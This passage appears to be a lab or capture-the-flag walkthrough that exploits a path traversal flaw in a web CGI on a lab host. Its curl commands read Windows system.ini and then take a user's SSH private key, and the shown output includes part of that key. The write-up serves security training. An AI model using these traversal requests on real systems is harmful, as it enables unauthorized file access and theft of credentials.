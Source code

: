 ```

```

Using this information, we should be able to read arbitrary files on the target system. The example in the exploit content shows dumping the contents of **system.ini**. Let's give that a shot.

```
┌──(kali㉿kali)-[~]
└─$ curl "http://192.168.120.239:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini"                                     
; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]

```

Success! Now we need to figure out what may be useful to dump from the target system. The only other service available to us is SSH. If we figure out any user accounts on the target, we could attempt to grab their SSH key to gain shell access.

Back in the browser, we navigate to the Users page at http://192.168.120.239:8080/Users.html, we find entries for the users Administrator and Viewer. Perhaps Viewer is a user account on the system. If so, we should be able to get a copy of their **id_rsa** file.

## Exploitation

Let's assume the user, viewer, stores their SSH key in the default location: **C:/Users/viewer/.ssh/id_rsa**

We can modify the curl command we ran before to attempt to grab this file. Let's redirect the response to a file.

```
┌──(kali㉿kali)-[~]
└─$ curl "http://192.168.120.239:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fviewer%2F%2Essh%2Fid_rsa" > id_rsa

┌──(kali㉿kali)-[~]
└─$ head id_rsa                                                                                            
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAuuXhjQJhDjXBJkiIftPZng7N999zteWzSgthQ5fs9kOhbFzLQJ5J
Ybut0BIbPaUdOhNlQcuhAUZjaaMxnWLbDJgTETK8h162J81p9q6vR2zKpHu9Dhi1ksVyAP
iJ/njNKI0tjtpeO3rjGMkKgNKwvv3y2EcCEt1d+LxsO3Wyb5ezuPT349v+MVs7VW04+mGx
pgheMgbX6HwqGSo9z38QetR6Ryxs+LVX49Bjhskz19gSF4/iTCbqoRo0djcH54fyPOm3OS
2LjjOKrgYM2aKwEN7asK3RMGDaqn1OlS4tpvCFvNshOzVq6l7pHQzc4lkf+bAi4K1YQXmo
7xqSQPAs4/dx6e7bD2FC0d/V9cUw8onGZtD8UXeZWQ/hqiCphsRd9S5zumaiaPrO4CgoSZ
GEQA4P7rdkpgVfERW0TP5fWPMZAyIEaLtOXAXmE5zXhTA9SvD6Zx2cMBfWmmsSO8F7pwAp
zJo1ghz/gjsp1Ao9yLBRmLZx4k7AFg66gxavUPrLAAAFkMOav4nDmr+JAAAAB3NzaC1yc2
```
